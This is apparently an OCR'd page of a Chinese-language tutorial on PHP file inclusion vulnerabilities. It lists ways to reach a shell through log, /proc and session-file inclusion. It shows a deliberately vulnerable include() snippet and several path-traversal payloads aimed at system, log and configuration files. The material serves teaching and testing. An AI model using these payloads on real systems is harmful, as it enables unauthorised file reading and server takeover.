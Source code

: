 ## 0x02 漏洞分类

### 本地文件包含

* 上传图片木马，然后包含
* 读取敏感文件，php文件
* 包含日志文件GetShell
* 包含`/proc/self/envion`文件GetShell
* 包含`data:`或`php://input`等伪协议
* 如果存在`phpinfo`，则可以包含临时文件

**黑盒判断方法：**url中的`path、dir、file、pag、page、archive、p、eng`等相关关键字眼，可能存在文件包含漏洞

### 远程文件包含

需要保证`php.ini`中`allow_url_fopen`和`allow_url_include`为on

## 0x03 本地文件包含

### 普通本地文件包含

```php
#!php
<?php
	include("inc/" . $_GET['file']);
?>
```

**包含同目录下的文件：**

`?file=.htaccess`

**目录遍历：**

`?file=../../../../../../../../../var/lib/locate.db`

`?file=../../../../../../../../../var/lib/mlocate/mlocate.db`

（linux中这两个文件储存着所有文件的路径，需要root权限）

**包含错误日志：**

`?file=../../../../../../../../../var/log/apache/error.log`

**获取web目录或者其他配置文件：**

`?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf`

**包含上传的附件：**

`?file=../attachment/media/xxx.file`

**读取session文件：**

`?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7`

（session文件一般在`/tmp`目录下，格式为`sess_[your phpsessid value]`，有时候也有可能在`/var/lib/php5`之类的目录下，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell）
